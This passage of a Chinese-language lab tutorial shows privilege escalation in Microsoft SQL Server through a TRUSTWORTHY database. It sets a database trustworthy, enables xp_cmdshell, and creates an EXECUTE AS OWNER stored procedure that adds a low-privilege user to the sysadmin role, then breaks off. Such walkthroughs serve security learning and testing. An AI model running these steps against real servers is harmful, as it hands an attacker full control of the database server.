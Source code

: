 Myappuser01确实为db\_owner的权限

![6.png](resource/Mssql受信用数据库提权/media/rId32.png)

查看myappusr01的属性也可以看到

#### 5.将\"MyTestdb01\"数据库设置为受信任。

    ALTER DATABASE MyTestdb01 SET TRUSTWORTHY ON

![7.png](resource/Mssql受信用数据库提权/media/rId34.png)

#### 6.下面的查询将返回SQL Server实例中的所有数据库，并且应将\"MyTestdb01 \"和\"MSDB\"数据库标记为可信任。

    SELECT a.name,b.is_trustworthy_on
    FROM master..sysdatabases as a
    INNER JOIN sys.databases as b
    ON a.name=b.name;

![8.png](resource/Mssql受信用数据库提权/media/rId36.png)

\"1\"就是受信用

#### 7.开启xp\_cmdshell

    EXEC sp_configure 'show advanced options',1
    RECONFIGURE
    GO

    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    GO

![9.png](resource/Mssql受信用数据库提权/media/rId38.png)

0x02 提权
---------

1.使用MyAppUser01用户登录，新建查询，看看我们的权限，这里不要用之前的查询，因为那是sa的查询看看我们的是否为sysadmin

![10.png](resource/Mssql受信用数据库提权/media/rId40.png)

2.新建一个sp\_elevate\_me查询

    USE MyTestdb01
    GO
    CREATE PROCEDURE sp_elevate_me
    WITH EXECUTE AS OWNER
    AS
    EXEC sp_addsrvrolemember 'MyAppUser01','sysadmin'
    GO

![11.png](resource/Mssql受信用数据库提权/media/rId41.png)
